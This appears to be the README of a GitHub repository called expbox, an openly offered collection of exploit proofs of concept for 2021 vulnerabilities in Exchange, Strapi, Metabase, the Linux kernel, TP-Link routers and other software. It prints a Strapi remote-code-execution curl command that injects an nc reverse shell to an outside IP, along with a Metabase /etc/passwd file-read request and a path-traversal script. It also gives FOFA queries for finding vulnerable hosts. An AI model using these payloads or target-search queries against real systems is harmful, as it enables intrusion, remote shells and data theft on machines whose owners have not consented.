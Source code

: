 ![[object Object]](https://socialify.git.ci/0x0021h/expbox/image?description=1&name=1&stargazers=1&theme=Light)

### Introduction
expbox is an exploit code collection repository


### List
**Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution**
```
curl -i -s -k -X $'POST' -H $'Host: api-prod.horizontall.htb' -H $'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwMzE5NzEwLCJleHAiOjE2MzI5MTE3MTB9.AfJr81dyxnmzlutCKArmf0kBgFCcDDhsk91IYNDpTFM' -H $'Content-Type: application/json' -H $'Origin: http://api-prod.horizontall.htb' -H $'Content-Length: 123' -H $'Connection: close' --data $'{\"plugin\":\"documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.42 4444 >/tmp/f)\",\"port\":\"80\"}' $'http://api-prod.horizontall.htb/admin/plugins/install'
```

**[CVE-2021-41349 Exchange XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021-41349-poc.py)**
```
<= Exchange 2013 update 23
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```
**[CVE-2021–3945 Django-helpdesk stored XSS PoC](https://github.com/0x0021h/expbox/blob/main/cve-2021%E2%80%933945-poc.txt)**
```
<= 0.3.0
```

**[CVE-2021-37580 Apache ShenYu 2.3.0/2.4.0 authentication bypass](https://github.com/0x0021h/expbox/blob/main/cve-2021-37580-poc.py)**
```
Ref: https://github.com/fengwenhua/CVE-2021-37580
```


**[Hadoop Yarn RPC RCE](https://github.com/0x0021h/expbox/blob/main/Hadoop%20Yarn%20RPC%20RCE.md)**
```
Ref: https://github.com/cckuailong/YarnRpcRCE
```

**[CVE-2021-41277 MetaBase Arbitrary File Read](https://github.com/0x0021h/expbox/blob/main/CVE-2021-41277.yaml)**
```
MetaBase < 0.40.5
1.0.0 <= MetaBase < 1.40.5

FOFA:

app="Metabase"

PoC:

GET /api/geojson?url=file:/etc/passwd HTTP/1.1
```

**[CVE-2021-42321 Exchange Post-Auth RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-42321.py)**
```
<= Exchange 2016 update 22
<= Exchange 2019 update 11
```

**[Windows 0day - InstallerFileTakeOver](https://github.com/0x0021h/expbox/blob/main/InstallerFileTakeOver.exe)**
![image](https://user-images.githubusercontent.com/92664048/142796024-a46e8a46-90d1-42ed-8cf2-42127fb65da3.png)
```
Ref:https://github.com/klinix5/InstallerFileTakeOver
```

**CVE-2021-43557 Apache APISIX: Path traversal in request_uri variable**
```
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

**[CVE-2021-43267 Linux Kernel TIPC RCE](https://github.com/0x0021h/expbox/blob/main/CVE-2021-43267.c)**
```
5.10-rc1 < Linux kernel < 5.15
```

Reference: https://haxx.in/posts/pwning-tipc/

**[Nginx 0.7.0 to 1.17.9 Host injection](https://github.com/0x0021h/expbox/blob/main/nginx%20%200.7.0%20to%201.17.9%20Host%20injection.md)**
```
Ref: https://twitter.com/infosec_90/status/1464337963240861702
```

**[CVE-2021-32849 Gerapy clone background remote command execution](https://github.com/0x0021h/expbox/blob/main/CVE-2021-32849.txt)**
```
Gerapy <= 0.9.6
```

**[CVE-2021-41653 TP-Link TL-WR840N remote command execution](https://github.com/0x0021h/expbox/blob/main/CVE-2021-41653.py)**
```
TL-WR840N(EU)_V5_171211 / 0.9.1 3.16 v0001.0 Build 171211 Rel.58800n

Fofa:

app="TP_LINK-TL-WR840N"
```
Ref: https://github.com/ohnonoyesyes/CVE-2021-41653


**[CVE-2021-41951 ResourceSpace reflective XSS](https://github.com/0x0021h/expbox/blob/main/CVE-2021-41951%20ResourceSpace%20reflective%20XSS.md)**
```
<= 9.5
```

**[sqlmap RCE](https://github.com/0x0021h/expbox/blob/main/sqlmap_rce.html)**
![image](https://user-images.githubusercontent.com/92664048/144734569-957596a7-5c46-48ef-8eea-9b07b151b315.png)


**[Jellyfin RemoteImageController.cs SSRF](https://github.com/0x0021h/expbox/blob/main/jellyfin.py)**
```
Jellyfin < 10.7.2

Example:
http://127.0.0.1:8096/Images/Remote?imageUrl=http://www.google.com
```

### Note

All content comes from the Internet, if there is a copyright problem, please contact me to delete.


![Alt](https://repobeats.axiom.co/api/embed/b5d4d71e5703d077abc2b3a8bffb5331e9ddf9d5.svg "Repobeats analytics image")

